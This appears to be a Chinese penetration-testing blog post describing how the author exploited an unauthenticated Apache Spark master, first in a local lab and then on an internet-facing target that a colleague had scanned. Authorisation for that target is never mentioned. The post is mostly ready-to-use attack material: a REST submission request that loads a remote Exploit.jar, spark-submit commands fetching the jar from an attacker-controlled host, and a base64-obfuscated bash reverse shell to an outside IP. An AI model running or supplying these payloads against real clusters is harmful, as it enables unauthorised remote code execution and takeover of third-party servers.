 同事扫到一个Apache Spark未授权页面，以此做为开始  

目标地址：  http://182.61.xxx.xxx:8080/  
网上搜索针对Apache Spark的漏洞复现，直接打失败，开始调试之旅  

本地搭建环境，使用此项目中的环境：https://github.com/vulhub/vulhub/tree/master/spark/unacc  
环境搭建完之后，访问：[http://192.168.202.128:8080](http://192.168.202.128:8080)，如下图所示，搭建成功  
![image](./pic/1.png)  
访问端口6066，能够成功访问，如下图  
![image](./pic/2.png)  
而目标不能访问，说明目标关闭了端口6066，漏洞复现中讲述还可以通过7077端口利用漏洞，且目标没关闭7077端口  
首先对本地测试针对6066端口的漏洞利用，发送如下burp请求  
```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```
获得响应如下  
![image](./pic/3.png)  
然后访问
```
http://192.168.202.128:8081/logPage/?driverId=driver-20211014035556-0013&logType=stdout
```
替换其中的driverId，成功获得执行结果，如下图  
![image](./pic/4.png)  
这里有一个细节需要注意："id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"，id_部分，我这里更改了Exploit.jar，由,分割变为_分割，用于后面反弹shell  

通过端口7077执行命令  
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar id
```
spark-submit下载链接：https://archive.apache.org/dist/spark/spark-2.4.3/spark-2.4.3-bin-hadoop2.7.tgz  
还是上述查看方式，成功执行命令  

通过端口7077反弹shell  
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuMjAwLjE0NC41NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}"
```
其中的
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuMjAwLjE0NC41NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
为
bash -i >& /dev/tcp/101.200.xx.xx/8888 0>&1
经过如下网站编码
http://www.jackson-t.ca/runtime-exec-payloads.html
```
执行后成功反弹shell  
![image](./pic/5.png)  

拿到目标测试后，成功拿到shell
